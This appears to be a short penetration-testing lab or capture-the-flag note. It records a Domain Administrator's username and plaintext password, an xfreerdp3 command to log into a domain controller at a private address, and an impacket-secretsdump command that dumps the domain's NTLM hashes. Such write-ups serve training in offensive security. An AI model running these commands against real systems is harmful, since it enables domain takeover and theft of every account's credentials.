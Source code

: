 - User `stom `is Domain Administrator :
	- `stom`: `calves-warp-learning1`

# Login to DC
---
- `xfreerdp3  /v:172.16.119.11 /u:stom /p:'calves-warp-learning1'`

# Secrets Dump
---
- `impacket-secretsdump 'stom':'calves-warp-learning1'@172.16.119.11 -just-dc-ntlm`
![[Pasted image 20250706214511.png]]
